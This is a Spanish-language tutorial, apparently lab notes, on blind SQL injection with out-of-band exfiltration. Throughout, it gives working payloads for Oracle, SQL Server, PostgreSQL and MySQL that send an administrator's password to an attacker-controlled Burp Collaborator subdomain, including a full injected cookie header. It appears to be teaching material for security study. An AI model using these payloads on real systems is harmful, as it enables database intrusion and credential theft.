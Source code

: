 ### **Blind SQL Injection con Exfiltración Out-of-Band (OOB)**  

El ataque **Blind SQL Injection con Exfiltración Out-of-Band (OOB)** se basa en **extraer datos** de una base de datos remota enviándolos a un servidor externo controlado por el atacante. A diferencia de la técnica OOB utilizada solo para **confirmar la inyección**, en este caso **transmitimos información sensible**, como credenciales de usuario.  

Este enfoque es útil cuando:  
✅ La base de datos permite hacer peticiones externas (HTTP, DNS).  
✅ No hay mensajes de error visibles.  
✅ No podemos inferir información a partir de respuestas o tiempos de ejecución.  

---

## **1. Exfiltración de datos a través de peticiones externas**  

Para exfiltrar datos, forzamos a la base de datos a **incluir información sensible en una petición a un servidor externo**. De esta forma, la información llega a nuestro servidor sin necesidad de verla directamente en la respuesta de la aplicación web.  

Cada motor de base de datos tiene su propia manera de hacer solicitudes externas. En la siguiente tabla se muestran algunos métodos para extraer datos:  

| **Base de Datos** | **Payload de Exfiltración OOB** |  
|------------------|---------------------------------|  
| **Oracle** | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |  
| **Microsoft SQL Server** | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |  
| **PostgreSQL** | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |  
| **MySQL (Windows)** | `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |  

📌 **Reemplaza `YOUR-QUERY-HERE` con la consulta a la base de datos que quieres extraer.**  

Si la base de datos ejecuta uno de estos payloads, **envía la contraseña como parte del subdominio de la petición**, lo que nos permite capturarla en nuestro servidor.  

---

## **2. Configuración del servidor para recibir datos**  

Para recibir los datos exfiltrados, podemos usar **Burp Collaborator** o configurar nuestro propio servidor DNS/HTTP.  

### **📌 Opción 1: Burp Collaborator (recomendada)**  
1. Abrimos **Burp Suite** → **Burp Collaborator Client**.  
2. Copiamos el subdominio generado (ejemplo: `ypr54uv2uaau7xac13ptor0o0f66uxim.oastify.com`).  
3. Lo insertamos en nuestra inyección SQL.  
4. Si la inyección es exitosa, **veremos la solicitud en Collaborator con la contraseña en el subdominio**.  

---

## **3. Ejemplo de Exfiltración en Oracle**  

Si la base de datos es **Oracle**, probamos el siguiente payload en una cookie vulnerable:  

```
Cookie: TrackingId=tuFRVGYqMES2D7o3' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.ypr54uv2uaau7xac13ptor0o0f66uxim.oastify.com/"> %remote;]>'),'/l') FROM dual-- -
```  

Si el sistema es vulnerable, Oracle intentará resolver un dominio como:  

```
n6g7sd98g87fsd.ypr54uv2uaau7xac13ptor0o0f66uxim.oastify.com
```  

Donde **"n6g7sd98g87fsd"** es la contraseña real del usuario `administrator`.  

📌 **Si vemos la petición en Burp Collaborator con la contraseña en el subdominio, significa que la exfiltración fue exitosa.**  

---

## **4. Explicación del Payload**  

```
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```  

### **🔎 Desglose del payload:**  

1. **`UNION SELECT`**  
   - Se usa para fusionar el resultado de una consulta arbitraria con la respuesta de la aplicación.  

2. **`EXTRACTVALUE(xmltype(...), '/l')`**  
   - En Oracle, esta función se usa para procesar XML y extraer valores.  
   - Se inyecta un XML malicioso que contiene una entidad externa.  

3. **`<!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">`**  
   - Define una **entidad externa** (`%remote`) que carga un recurso desde un dominio controlado por el atacante.  
   - **La contraseña se inserta dentro del subdominio de la URL.**  

4. **`FROM dual`**  
   - `dual` es una tabla especial en Oracle usada para ejecutar consultas sin depender de datos de usuario.  

### **📌 ¿Qué sucede cuando se ejecuta este payload?**  

🔹 Oracle intenta resolver la URL generada.  
🔹 La contraseña aparece en el subdominio de la petición.  
🔹 Burp Collaborator captura la solicitud y muestra la contraseña.  

---

## **5. Variaciones para otros motores de base de datos**  

Si el payload anterior no funciona, probamos otros dependiendo del motor:  

### **SQL Server**  

```
declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='administrator');
exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```  

- Ejecuta la función `xp_dirtree`, que lista directorios remotos.  
- En sistemas vulnerables, se genera una solicitud SMB con la contraseña en el subdominio.  

---

### **PostgreSQL**  

```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT password FROM users WHERE username='administrator');
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```  

- Ejecuta el comando `nslookup` en el sistema operativo.  
- Si PostgreSQL tiene permisos suficientes, intenta resolver el dominio, enviando la contraseña en el subdominio.  

---

### **MySQL (Windows)**  

```
SELECT password INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a' FROM users WHERE username='administrator'
```  

- Solo funciona en **Windows** si MySQL tiene permisos para acceder a archivos.  
- Intenta escribir un archivo en un recurso compartido SMB con la contraseña como parte del nombre.  

---

## **6. Conclusión**  

La **Exfiltración Out-of-Band (OOB)** es una técnica poderosa para extraer datos sensibles de bases de datos que permiten realizar peticiones externas.  

### **📌 Resumen del proceso:**  

✅ **Paso 1:** Identificamos si la base de datos permite conexiones externas.  
✅ **Paso 2:** Usamos un payload para incluir información en una solicitud externa.  
✅ **Paso 3:** Configuramos Burp Collaborator o un servidor propio para recibir las peticiones.  
✅ **Paso 4:** Capturamos la solicitud con la contraseña en el subdominio.  

🚀 **Este método es altamente efectivo en ambientes blindados donde no podemos obtener respuestas directas de la base de datos.**
